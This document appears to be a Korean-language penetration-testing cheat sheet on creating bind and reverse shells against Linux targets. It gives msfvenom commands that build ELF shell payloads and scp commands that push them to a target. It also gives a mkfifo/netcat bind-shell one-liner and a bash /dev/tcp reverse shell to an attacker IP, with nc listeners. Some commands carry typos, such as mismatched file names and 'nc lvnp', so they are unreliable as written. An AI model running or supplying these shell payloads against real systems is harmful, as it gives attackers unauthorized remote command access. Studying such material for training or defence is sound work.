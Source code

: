

# Bind Shell 페이로드 제작 자동화 – MSFVenom

**공격자
- 타겟은 리눅스 OS 이므로 elf 형식의 실행 파일로 페이로드 제작
```bash
msfvenom --list payloads
msfvenom -p <페이로드> --list-options      # 옵션 확인
msfvenom -p <페이로드> --list formats      # 파일 포맷 확인
msfvenom -p <페이로드종류> <옵션> -f <파일포맷> -o <출력파일>
```

`msfvenom -p linux/x64/shell_bind_tcp RHOSTS=<타겟 IP> RPORT=7777 -f elf -o binsdshell` - 타겟의 7777 포트 Open하는 페이로드 
`file bindshell` - 파일 타입 확인 (ELF 64-bit LSB executable)
`scp bindshell root@<타겟IP>:/tmp/bindshell` - 타겟 시스템으로 전송


**타겟
`chmod +x binsdshell` - 실행 권한
`./bindshell`

**공격자
`nc <타겟IP> 7777` - nc 연결
> 이 방식의 단점은 msfvenom(자동화 도구) 사용은 타겟으로 파일을 보낸 뒤, 실행 권한까지 줘야함


# Bind Shell 페이로드 제작 - 수동
https://www.revshells.com/ -  해당 사이트는 파이썬,자바스크립트,명령어로 nc 연결하는 등 여러 페이로드 확인 가능
> `Bind` 탭의 `nc Bind` 메뉴에 들어가서 명령어 복사 
> `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 9001 > /tmp/f`

**타겟
타겟 PC에서 `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 9001 > /tmp/f` 명령어 실행

**공격자
`nc <타겟IP> 9001` - nc 연결





# Reverse Shell 페이로드 제작 자동화 – MSFVenom

**공격자
- 타겟은 리눅스 OS 이므로 elf 형식의 실행 파일로 페이로드 제작
```bash
msfvenom --list payloads
msfvenom -p <페이로드> --list-options      # 옵션 확인
msfvenom -p <페이로드> --list formats      # 파일 포맷 확인
msfvenom -p <페이로드종류> <옵션> -f <파일포맷> -o <출력파일>
```


`msfvenom -p linux/x64/shell_reverse_tcp LHOSTS=<공격자 IP> LPORT=6666 -f elf -o reverseshell`
`file reverseshell` - 파일 타입 확인 (ELF 64-bit LSB executable)
`scp reverseshell root@<타겟IP>:/tmp/reverseshell` - 타겟 시스템으로 전송
`nc lvnp 6666` - nc 연결 대기


**타겟
`chmod +x binsdshell` - 실행 권한
`./reverseshell`

> 이 방식의 단점은 msfvenom(자동화 도구) 사용은 타겟에게 파일을 보낸 뒤, 실행 권한까지 줘야함


# Reverse Shell 페이로드 제작 - 수동
https://www.revshells.com/ -  해당 사이트는 다양한 페이로드, 명령어로 nc 연결하는 등 여러 페이로드 확인 가능
> `Reverse` 탭의 `Bash -i` 메뉴에 들어가서 명령어 복사 
> `sh -i >& /dev/tcp/<공격자IP>/9001 0>&1`

**공격자
`nc lvnp 9001` - nc 연결 대기

**타겟
타겟 PC에서 `sh -i >& /dev/tcp/<공격자IP>/9001 0>&1` 명령어 실행 시 nc 연결 확인





 
 
 
 
 